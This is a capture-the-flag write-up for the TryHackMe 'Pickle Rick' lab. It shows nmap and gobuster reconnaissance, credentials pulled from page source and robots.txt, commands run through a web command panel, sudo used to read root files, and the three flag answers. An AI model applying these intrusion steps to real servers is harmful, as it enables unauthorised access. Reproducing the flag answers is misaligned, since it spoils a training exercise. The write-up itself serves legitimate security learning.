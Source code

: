 <!-- TOC -->

- [Pickle Rick](#pickle-rick)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)

<!-- /TOC -->

# Pickle Rick

[Pickle Rick Room](https://tryhackme.com/room/picklerick)

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

| Title | IP Address |
| :---- | :---- |
| Pickle Rick | 10.10.136.127 |

## Discovery and Scanning

```bash
sudo nmap -A -vv -T4 -oA initial 10.10.136.127
```

Result: [initial.nmap](initial.nmap)

> `80/tcp open http syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))`

View Page Source: `http://10.10.136.127`

> `Username: R1ckRul3s`

```bash
gobuster dir -u 10.10.136.127:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,cer,css,htm,html,js,jsp,php,py,xhtml -t 100
```

> ```
> /index.html           (Status: 200) [Size: 1062]
> /login.php            (Status: 200) [Size: 882]
> /robots.txt           (Status: 200) [Size: 17]
> /assets               (Status: 301) [Size: 315] [--> http://10.10.136.127/assets/]
> /portal.php           (Status: 302) [Size: 0] [--> /login.php]                    
> /denied.php           (Status: 302) [Size: 0] [--> /login.php]
> /clue.txt             (Status: 200) [Size: 54]                    
> /server-status        (Status: 403) [Size: 301]   
> ```

`http://10.10.136.127/robots.txt`

> `Wubbalubbadubdub`

`http://10.10.136.127/clue.txt`

> `Look around the file system for the other ingredient.`

## Exploitation

Using `R1ckRul3s:Wubbalubbadubdub`:

`http://10.10.136.127/login.php`

View Page Source: `http://10.10.136.127/portal.php#`

> `<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->`

Decoded 7 times with `base64` -> `rabbit hole`

Using the Command Panel:

```bash
sudo -l
```

> `(ALL) NOPASSWD: ALL`

```bash
ls
```

> `Sup3rS3cretPickl3Ingred.txt`

`http://10.10.136.127/Sup3rS3cretPickl3Ingred.txt`

> `mr. meeseek hair`

```bash
ls -la /home/rick
```

> `-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients`

```bash
base64 "/home/rick/second ingredients" | base64 -d
```

> `1 jerry tear`

```bash
sudo ls -la /root
```

> `-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt`

```bash
sudo base64 "/root/3rd.txt" | base64 -d
```

> `3rd ingredients: fleeb juice`
